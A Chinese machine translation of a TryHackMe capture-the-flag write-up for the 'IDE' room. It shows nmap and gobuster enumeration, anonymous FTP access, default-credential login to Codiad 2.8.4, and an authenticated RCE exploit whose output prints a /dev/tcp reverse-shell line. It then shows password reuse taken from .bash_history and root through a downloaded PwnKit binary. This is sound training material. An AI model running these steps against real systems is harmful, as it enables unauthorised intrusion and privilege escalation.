



# TryHackMe writeup: IDE

> 原文：<https://infosecwriteups.com/tryhackme-writeup-ide-4853122e4ec1?source=collection_archive---------0----------------------->

TryHackMe 发布了一个名为 *IDE* 的房间，它将自己描述为“一个打磨你的枚举技能的简易盒子”([“blue storm”和“403Exploit”，2021](https://tryhackme.com/room/ide) )。这个房间确实考验了你的侦察和计数技能——要求学生探索每一个角落和缝隙，看看有什么可以公开访问或没有凭证。在这个房间里，我将描述在这个 boot2root 系统上获取必要标志的过程。


基础图片:[普里斯(2019)](https://www.denofgeek.com/tv/how-veronica-mars-transcended-its-many-genres/)

# 程序

首先，我必须为这个捕获标志建立两个目标:首先是获得一个具有用户级权限的`user.txt`标志，然后获得一个具有根级权限的`root.txt`标志。问题解决后，我现在可以开始执行我的攻击了。

## 初始探测

和这些 TryHackMe boot2root 虚拟机一样，我点击了第一个任务右上角的绿色按钮“让球滚动起来”。我继续用带有以下标志的`nmap`扫描来探测系统:

```
**└─****$ nmap -sT -v -Pn -p- -O -oX tcp_scan.xml <boot2root ip>**
```

`nmap`扫描的结果显示了系统上一些有趣的端口(图 1):端口 21 上的 FTP 服务、端口 22 上的 SSH 服务、端口 80 上的 web 服务器和端口 62337 上的神秘服务。



**图 1: nmap 结果。**

`nmap`还确定了可能运行 Linux 3.1 的操作系统。我最初探索的下一步是浏览 web 服务器。我用浏览器访问网站的主页，看到的是 Apache2 web 服务器的默认页面(图 2)。



**图 boot2root 机器的默认页面。**

也许网络服务器有一个隐藏的目录？然后，我在我的攻击箱上的网络服务器上运行了`gobuster` ( [Mehlmauer 和“hytalo-bassi”，n.d.](https://github.com/OJ/gobuster) ):

```
**└─$ gobuster dir -u http://<boot2root ip>/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt** 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://<boot2root ip>/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===================================================================
[redacted] Starting gobuster in directory enumeration mode
===================================================================
```

当`gobuster`在后台运行时，我将`nmap`扫描的 XML 输出转换成可读的 HTML 格式(图 1 ),然后以匿名用户的身份浏览 FTP 服务器:

```
**└─$ ftp <boot2root ip>**
Connected to <boot2root ip>.
220 (vsFTPd 3.0.3)
Name (<boot2root ip>:[redacted]): **anonymous**
331 Please specify the password. 
Password: **[no password]**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
**ftp> ls**
229 Entering Extended Passive Mode (|||59871|)
150 Here comes the directory listing.
226 Directory send OK.
```

FTP 服务器上似乎没有什么有趣的东西，所以我决定检查一下 62337 端口上的神秘服务。我用我的网络浏览器访问这个服务，得到如下结果(图 3):


**图 3:62337 端口上的“神秘”服务。**

从`<title>` HTML 标签生成的标题判断，这个服务正在运行一个名为 [Codiad (n.d.)](http://codiad.com/) 的软件，这是一个“基于 web 的 IDE 框架，占用空间小，要求最低。”基于 web 的 IDE 的特定版本是`2.8.4`，使用`searchsploit`搜索漏洞会发现以下远程命令执行漏洞:

```
**└─$ searchsploit codiad**[... snip ...]Codiad 2.8.4 — Remote Code Execution (Authenticated) | multiple/webapps/49705.py
 Codiad 2.8.4 — Remote Code Execution (Authenticated) (2) | multiple/webapps/49902.py
 Codiad 2.8.4 — Remote Code Execution (Authenticated) (3) | multiple/webapps/49907.py
 Codiad 2.8.4 — Remote Code Execution (Authenticated) (4) | multiple/webapps/50474.txt[... snip ...]
```

不幸的是，这些攻击需要凭证。此外，`gobuster`没有发现隐藏的目录(并只是吐出错误信息):

```
[ERROR] [redacted] [!] Get "http://<boot2root ip>/5585": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] [redacted] [!] Get "http://<boot2root ip>/000648": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] [redacted] [!] Get "http://<boot2root ip>/zihack": context deadline exceeded (Client.Timeout exceeded while awaiting headers)/server-status (Status: 403) [Size: 275]

===============================================================
[redacted] Finished
===============================================================
```

然后，我将注意力转向 FTP 服务器(再次),更加努力地列举可以从系统中下载的任何内容:

```
**└─$ ftp <boot2root ip>**
Connected to <boot2root ip>.
220 (vsFTPd 3.0.3)
Name (<boot2root ip>:[redacted]): **anonymous**
331 Please specify the password.
Password: **[no password]**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
**ftp> ls -la**
229 Entering Extended Passive Mode (|||42675|)
150 Here comes the directory listing.
drwxr-xr-x 3 0 114 4096 Jun 18 2021 .
drwxr-xr-x 3 0 114 4096 Jun 18 2021 ..
drwxr-xr-x 2 0 0 4096 Jun 18 2021 ...
226 Directory send OK.
**ftp> cd ...**
250 Directory successfully changed.
**ftp> ls -la**
229 Entering Extended Passive Mode (|||49004|)
150 Here comes the directory listing.
-rw-r-r-- 1 0 0 151 Jun 18 2021 -
drwxr-xr-x 2 0 0 4096 Jun 18 2021 .
drwxr-xr-x 3 0 114 4096 Jun 18 2021 ..
226 Directory send OK.
**ftp> get "-"**
[... snip ...]
226 Transfer complete.
151 bytes received in [redacted]
**ftp>**
```

在根目录下运行`ls -la`显示了一个名为“…”的目录，然后我将其更改为，然后再次运行`ls -la`命令。运行它发现系统上有一个名为“-”的文件，然后我将它下载到我的攻击箱中。以下内容在“-”文件中:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

我在这里了解到三个重要的事实:系统上有一个名为`john`的用户，系统上有另一个名为`drac`的用户，并且某种服务正在使用“默认密码”。

根据房间的名称，我推测这个默认密码在运行于 62337 端口的 Codio web 应用程序上。我尝试了许多默认密码，得出登录应用程序的密码组合是`john:password`，并且能够登录应用程序(图 4):



**图 Codiad 应用程序**

我简单地看了一下这个项目，从文件名和粗略阅读的代码中猜测，这似乎是某种视频流应用程序。但是现在我有进入 Codiad 帐户的有效凭证，我可以继续利用。

## 剥削

有了有效的 Codiad 登录，我现在可以继续配置 Codiad 漏洞并将其武器化。我决定使用由`searchsploit`提供的`49705.py`概念验证——首先打开一个 netcat 监听器，然后启动漏洞利用:

```
**└─$ python3 49705.py http://<boot2root ip>:62337/ john password <attackbox ip> 4445**
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/<boot2root ip>/4445 0>&1 2>&1"' | [... snip ...][+] Please confirm that you have done the two command above [y/n]
[Y/n] **Y**
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path…
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```

在利用漏洞之后，我在目标系统上安装了一个 shell:

```
connect to [<attackbox ip>] from (UNKNOWN) [<boot2root ip>] 52940
bash: cannot set terminal process group (921): Inappropriate ioctl for device
bash: no job control in this shell
**www-data@ide:/var/www/html/codiad/components/filemanager$ id**
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 后剥削

使用一个 shell，我试图获得`user.txt`标志——但遗憾的是，因为我没有所需的读取权限，所以无法获得:

```
**www-data@ide:/var/www/html/codiad/components/filemanager$ find / -name user.txt -type f -print 2>/dev/null**
<r$ find / -name user.txt -type f -print 2>/dev/null 
/home/drac/user.txt
**www-data@ide:/var/www/html/codiad/components/filemanager$ cat /home/drac/user.txt**
<iad/components/filemanager$ cat /home/drac/user.txt 
cat: /home/drac/user.txt: Permission denied
```

因此，我得到了一个目录列表，其中列出了我可以从使用`ls -la`的`drac`用户帐户中读取的文件类型

```
total 52
 drwxr-xr-x 6 drac drac 4096 Aug 4 2021 .
 drwxr-xr-x 3 root root 4096 Jun 17 2021 ..
 -rw------- 1 drac drac 49 Jun 18 2021 .Xauthority
 -rw-r--r-- 1 drac drac 36 Jul 11 2021 .bash_history
 -rw-r--r-- 1 drac drac 220 Apr 4 2018 .bash_logout
 -rw-r--r-- 1 drac drac 3787 Jul 11 2021 .bashrc
 drwx------ 4 drac drac 4096 Jun 18 2021 .cache
 drwxr-x--- 3 drac drac 4096 Jun 18 2021 .config
 drwx------ 4 drac drac 4096 Jun 18 2021 .gnupg
 drwx------ 3 drac drac 4096 Jun 18 2021 .local
 -rw-r--r-- 1 drac drac 807 Apr 4 2018 .profile
 -rw-r--r-- 1 drac drac 0 Jun 17 2021 .sudo_as_admin_successful
 -rw------- 1 drac drac 557 Jun 18 2021 .xsession-errors
 -r-------- 1 drac drac 33 Jun 18 2021 user.txt
```

有了`www-data`账号，我可以读取四个文件:`.bash_history`、`.bash_logout`、`.bashrc`、`.profile`和`.sudo_as_admin_successful`。然后，我使用 Python 建立一个微型 HTTP 服务，将可读文件传输到我的攻击箱中，然后用`cat`检查它们的内容。`.bash_history`有一条重要的信息:

```
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

似乎`drac`用户正在连接到某个 MySQL 实例，并且正在重用他们的用户名。他们也可能重复使用他们的密码，所以我决定使用 MySQL 密码通过 SSH 登录到`drac`账户，然后…

```
**└─$ ssh drac@<boot2root ip>** 
The authenticity of host '<boot2root ip> (<boot2root ip>)' can’t be established.
ED25519 key fingerprint is SHA256:74/tt/begRRzOOEOmVr2W3VX96tjC2aHyfqOEFUOkRk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? **yes**
Warning: Permanently added '<boot2root ip>' (ED25519) to the list of known hosts.
drac@<boot2root ip>’s password: **[Th3dRaCULa1sR3aL]**
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0–147-generic x86_64)* Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/advantageSystem information as of [redacted]System load: 0.08 Processes: 101
 Usage of /: 49.9% of 8.79GB Users logged in: 0
 Memory usage: 16% IP address for eth0: <boot2root ip>
 Swap usage: 0%* Canonical Livepatch is available for installation.
 — Reduce system reboots and improve kernel security. Activate at:
 https://ubuntu.com/livepatch69 packages can be updated.
1 update is a security update.Last login: [redacted]
**drac@ide:~$**
```

使用与`drac`相同的文件权限，我现在可以读取`user.txt`文件:

```
**drac@ide:~$ cat user.txt** [redacted]
```

下一步是获取`root.txt`标志，这可以通过利用 boot2root 系统中的权限提升错误来实现。我首先将 *Linux 智能枚举脚本* ( [Blanco，n.d.](https://github.com/diego-treitos/linux-smart-enumeration) )下载到 boot2root 系统上，然后运行它来寻找根系统的潜在候选对象。

```
**drac@ide:~$ ./lse.sh**
-----
If you know the current user password, write it here to check sudo privileges: **Th3dRaCULa1sR3aL** 
-----

 LSE Version: 4.2nwUser: drac
 User ID: 1000
 Password: ******
 Home: /home/drac
 Path: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
 umask: 0002Hostname: ide
 Linux: 4.15.0–147-generic
Distribution: Ubuntu 18.04.5 LTS
Architecture: x86_64======================( humanity )=========================
[!] nowar0 Should we question autocrats and their "military operations"?... yes![... snip ...][!] cve-2021-3560 Checking for policykit vulnerability..................... nope
[!] cve-2021-4034 Checking for PwnKit **# Interesting Exploit** vulnerability........................ yes!
---
Vulnerable!
---
[!] cve-2022-0847 Dirty Pipe **# Interesting Exploit** vulnerability................................. yes!
---
4.15.0-147-generic
---[... snip ...]**drac@ide:~$**
```

在未能通过肮脏管道漏洞([凯勒曼，2022](https://dirtypipe.cm4all.com/) )对系统进行根攻击后，我决定利用 PwnKit 漏洞以及 [Lyak(未注明)](https://github.com/ly4k/PwnKit)设计的编译和工作漏洞，自动将自己置于根外壳上:

```
**drac@ide:~$ wget http://<attackbox ip>:8888/exploits/PwnKit**
-- [redacted] --  http://<attackbox ip>:8888/exploits/PwnKit
Connecting to <attackbox ip>:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14688 (14K) [application/octet-stream]
Saving to: 'PwnKit'PwnKit 100%[============================================================>] [redacted] in 0.1s[redacted] (131 KB/s) — 'PwnKit' saved [14688/14688]**drac@ide:~$ ls -l PwnKit**
-rw-rw-r-- 1 drac drac 14688 [redacted] PwnKit
**drac@ide:~$ chmod +x PwnKit**
**drac@ide:~$ ./PwnKit**
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.**root@ide:/home/drac#**
```

剩下的就是转储`root.txt`文件:

```
**root@ide:/home/drac# cat /root/root.txt** [redacted]
```

阿洛拉。

# 结论

IDE 房间非常有趣！就执行攻击所需的技术技能而言，这相当容易，但它迫使学生真正练习他们的枚举和探测技能。这表明，对目标系统的广泛探测可能会导致某种类型的漏洞——因为即使是最优秀的系统管理员也会犯错，从而导致坏人获得访问权限。

## 外卖食品

*   执行专业渗透测试时，请确保扫描目标系统上的所有端口。这可以通过在`nmap`上添加`-p-`标志来实现。
*   此外，如果一个人可以匿名读取 FTP 服务器，一定要用`ls -la`命令枚举所有目录，因为看似无用的文件可能是“进入王国的钥匙”
*   端口 80 上的 web 服务器可能不容易被利用，或者可能只有一个默认网页。
*   确保在远程目标系统上读取或下载任何具有读取权限的文件。`.bash_history`文件为我提供了一个密码，我可以在通过 SSH 服务登录到`drac`帐户时重用这个密码。
*   如果一个权限提升利用由于某种原因失败了，您总是可以尝试另一个；-)

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:【https://twitter.com/MiraLazine 
*   她的中档:【https://medium.com/@MiraLazine】T4
*   用现金捐给她自己。app:[https://cash.app/$MiraLazine](https://cash.app/$MiraLazine)

# 参考

布兰科博士。 *Linux 智能枚举*。GitHub 仓库。2022 年 3 月 28 日检索自:[https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

《蓝色风暴》和《403 漏洞》(2021)。 *IDE* 。TryHackMe。2022 年 3 月 28 日检索自:[https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)

编码(未注明日期)。2022 年 3 月 27 日检索自:[http://codiad.com/](http://codiad.com/)

凯勒曼，硕士(c.a. 2022)。*脏管道漏洞文档*。2022 年 3 月 28 日检索:[https://dirtypipe.cm4all.com/](https://dirtypipe.cm4all.com/)

利亚克岛(未注明)。 *PwnKit* 。GitHub 仓库。2022 年 3 月 28 日检索自:[https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)

Mehlmauer，c .和“hytalo-bassi”(未注明)。 *gobuster* 。GitHub 仓库。2022 年 3 月 27 日检索自:[https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)

普利斯，C. (2019)。*维罗妮卡·马尔斯如何超越其众多流派*。极客的巢穴。2022 年 3 月 28 日检索自:[https://www . denofgeek . com/TV/how-Veronica-mars-beyonded-its-many-genders/](https://www.denofgeek.com/tv/how-veronica-mars-transcended-its-many-genres/)